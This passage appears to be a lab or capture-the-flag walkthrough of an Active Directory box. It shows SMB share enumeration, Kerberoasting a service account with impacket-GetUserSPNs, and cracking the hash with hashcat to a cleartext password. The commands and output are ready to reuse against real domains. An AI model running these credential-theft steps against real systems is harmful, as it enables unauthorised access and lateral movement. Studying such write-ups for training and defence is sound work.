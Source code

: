 ```bash
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares

# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL

# use public
# ls
drw-rw-rw-          0  Fri Nov  5 11:23:19 2021 .
drw-rw-rw-          0  Fri Nov  5 11:23:19 2021 ..
-rw-rw-rw-     630106  Sat Nov  6 06:45:07 2021 Network Security Changes.pdf
# get Network Security Changes.pdf
```

### Kerberoast 
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#linux
* https://www.thehacker.recipes/ad/movement/kerberos/kerberoast

`impacket-GetUserSPNs -request -dc-ip dc1.scrm.local scrm.local/ksimpson:ksimpson -outputfile ksimpson_hashes.kerberoast` # Password will be prompted if without `:password`

```bash
impacket-GetUserSPNs -request -dc-ip dc1.scrm.local scrm.local/ksimpson:ksimpson -outputfile ksimpson_hashes.kerberoast -k -dc-host dc1.scrm.local
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-04 05:32:02.351452  2023-11-27 12:38:28.276706             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-04 05:32:02.351452  2023-11-27 12:38:28.276706
```

```bash
mv ksimpson_hashes.kerberoast mssql-svc.hash
hashcat mssql-svc.hash /usr/share/wordlists/rockyou.txt

Pegasus60
```
